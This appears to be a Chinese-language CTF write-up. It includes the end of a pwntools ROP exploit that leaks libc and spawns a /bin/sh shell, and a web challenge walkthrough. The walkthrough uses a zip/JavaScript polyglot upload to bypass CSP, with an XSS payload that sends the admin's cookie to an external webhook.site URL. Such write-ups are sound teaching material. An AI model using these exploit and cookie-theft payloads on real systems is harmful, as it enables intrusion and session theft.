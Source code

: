 ```python=
        pop_rdi,
        got_libc_start_main,
        got_puts,
        main
        )

r.sendlineafter(': ', str(0x80000000))
r.sendafter(':)\n', payload)

libc_base = u64(r.recv(6) + '\0\0') - 0x21ab0
success(hex(libc_base))
l.address = libc_base


pop_rdx = libc_base + 0x1b96
pop_rsi = libc_base + 0x23e6a
pop_rax = libc_base + 0x439c8
syscall = libc_base + 0x13c0

payload = flat(
        'a' * 0x100,
        0x400810,
        pop_rdi,
        l.search('/bin/sh').next(),
        pop_rdx,
        0,
        pop_rsi,
        0,
        pop_rax,
        0x3b,
        syscall
        )

r.sendlineafter(': ', str(0x80000000))
r.sendafter(':)\n', payload)

r.interactive()

```

4. 拿到shell之後即可取得 `FLAG{H0w_did_y0u_byp4ss_my_ch3cking?_I7s_imp0ss1b1e!}`

### how2meow(web) 林宸慶、黃楚翔、胡安鳳 (20 solved, 251 pts)
*    此題的目標是要偷出admin的 cookie，可以觀察到，網站提供了一個上傳檔案的地方和一個可以被xss攻擊的網頁。

1.先觀察可以被攻擊的網頁(meow.php)，可以看到網站回應的header有做限制，因為這個限制，inline javascript 完全無法使用，且若要使用javascript，必須是同個網域內的，因此，另一個上傳檔案的地方成了我們的目標。
![](https://i.imgur.com/KPssHgp.png)
2.觀察上傳網站的source code，可以看到上傳要求的檔案是zip檔，且解壓縮後要有一個叫做meow的檔案，檔案內容為edu-ctf。
![](https://i.imgur.com/36krOtj.png)
3.但是我們要上傳的檔案需要是合法的 js 檔，但是我們只能上傳zip檔(須改副檔名為meow)，因此，我們將寫好的meow檔(edu-ctf)壓縮後得到一個zip檔，將此zip檔的附檔名改為meow。這樣便可以獲得一個合法的壓縮檔。接著我們在把壓縮檔的第一行加兩個斜槓，這樣javascript便會將這裡視為註解，之後再把我們的payload放進去，這樣這個檔案既是一個合法的meow檔，又是一個合法的js檔。
![](https://i.imgur.com/7bsfXek.png)
4.因為有 content security policy 的限制，只有 img 可以訪問外面的網站，所以將cookie附在src的上面傳出去作為payload。
```
payload = var img=document.createElement("img");img.src="http://webhook.site/36768177-3c9c-4c99-b2f4-4b300ec6f12a/?x="+btoa(document.cookie);
```
5.成功上傳這個檔案後，將meow.php裡 q參數設為script標籤並引用我們上傳的script檔，即可取得cookie
6.回報給admin可取得`FLAG{u_r_m3ow_xss_m4ster}`
